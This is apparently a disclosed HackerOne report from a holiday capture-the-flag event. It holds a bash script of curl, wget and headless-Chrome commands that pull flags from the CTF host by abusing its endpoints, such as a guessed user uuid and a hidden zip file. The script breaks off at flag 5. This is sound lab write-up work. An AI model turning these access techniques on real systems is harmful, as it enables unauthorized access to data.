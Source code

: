 # Grinch Networks compromised!

## Report Details
- **Report ID**: 1066504
- **URL**: https://hackerone.com/reports/1066504
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-12-26T05:34:39.930Z
- **Disclosed**: 2021-01-11T22:06:15.458Z

## Reporter
- **Username**: zonduu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
# Grinch Networks compromised!

For fast triage/validation and inspired by @manoelt in other CTF, I made a bash script to find and print all the 12 flags of this CTF.

The script uses curl, wget, google-chrome headless (for flag 2), unzip, grep and sed. If any of these commands is missing, the script might crash or not get all the flags.

```bash
echo -e "NOTE: This script uses: curl, wget, google-chrome headless, unzip, grep and sed. if any of this is missing, the script might not run well\n";

echo -e "[*] Getting all flags...\n";

## Flag 1

curl -i -s -k -X $'GET' -H $'Host: hackyholidays.h1ctf.com' -H $'Connection: close' $'https://hackyholidays.h1ctf.com/robots.txt' | grep "flag[^ ]*" -o | sed 's/^/Flag 1\: /';

## Flag 2 - Needs chrome headless browser.

google-chrome --headless --disable-gpu --dump-dom https://hackyholidays.h1ctf.com/s3cr3t-ar3a --no-sandbox | egrep -o "flag\{[a-zA-Z0-9\-]*}" | sed 's/^/Flag 2\: /';

## Flag 3

curl -i -s -k -X $'GET' -H $'Host: hackyholidays.h1ctf.com' -H $'Connection: close' $'https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0g' | egrep "flag\{[a-zA-Z0-9\-]*}" -o | sed 's/^/Flag 3\: /';

## Flag 4

curl -i -s -k -X $'GET' -H $'Host: hackyholidays.h1ctf.com' -H $'Connection: close' $'https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043' | egrep "flag\{[a-zA-Z0-9\-]*}" -o | sed 's/^/Flag 4\: /';

## Flag 5 - this one is a bit hard. uses 'unzip' to unzip the file, reads it and then deletes everything.

wget 'https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip' 2> /dev/null;
```